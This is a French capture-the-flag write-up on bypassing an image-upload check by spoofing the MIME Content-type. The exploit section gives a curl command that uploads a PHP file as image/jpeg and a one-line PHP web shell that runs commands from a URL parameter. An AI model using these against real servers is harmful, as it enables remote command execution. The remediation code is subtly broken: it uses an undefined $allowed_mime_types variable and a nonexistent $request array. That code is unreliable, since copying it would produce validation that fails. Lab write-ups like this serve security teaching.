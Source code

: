 # Recherche

- Sur la page d'accueil on peut cliquer sur le bouton **ADD IMAGE** qui permet d'upload une image.

- Quand un fichier est uploadé, le type est **verifié** et les fichiers qui ne sont pas des images sont **refusés**.

# Exploit

- Il s'agit ici d'un exploit du **MIME (Multipurpose Internet Mail Extensions)** fournis dans la requète des fichier transmis au serveur. Le **MIME** est un standard qui permet **d'indiquer le type de contenu d'un fichier**. Il est utilisé pour les fichiers envoyés par mail, mais aussi pour les fichiers uploadés sur un **serveur web**.

- On peut upload **n'import quel type de fichier** avec `CURL` et changeant le `Content-type` de la requête pour `image/jpeg`, ce qui le fais passer le fichier **PHP** pour une **image** qui est alors accepté par le serveur.

```bash
touch maliciousScript.php
curl -s -X POST -F "uploaded=@maliciousScript.php;type=image/jpeg" -F "Upload=Upload" "http://$ip/index.php?page=upload"
```

`(cf. get_flag.sh)`

- Pour une utilisation reelle, on peut créer un s**cript PHP malveillant** qui va nous permettre **d'executer des commandes sur le serveur**.

```PHP
<?php
system($_GET['cmd']);
?>
```

# Fix

- Vérifier le type de fichier uploadé **coté serveur**.

- Utiliser `pathinfo` et `finfo_file` fournit par PHP pour obtenir **l'extension** et **le type MIME** d'un fichier respectivement. Le serveur peut ensuite **comparer ces informations** avec le `Content-type` de la requête pour **vérifier** que le fichier est bien du type attendu.

```PHP
$file = $_FILES['uploaded'];
$allowed_extensions = ['jpg', 'jpeg', 'png', 'gif'];

$extension = pathinfo($file['name'], PATHINFO_EXTENSION);
$finfo = new finfo(FILEINFO_MIME_TYPE);
$mime_type = $finfo->file($file['tmp_name']);

if (!in_array($extension, $allowed_extensions) || !in_array($mime_type, $allowed_mime_types)) {
    die('Invalid file type');
}

if ($mime_type !== $request['Content-type']) {
    die('Different MIME type between file and request');
}
```
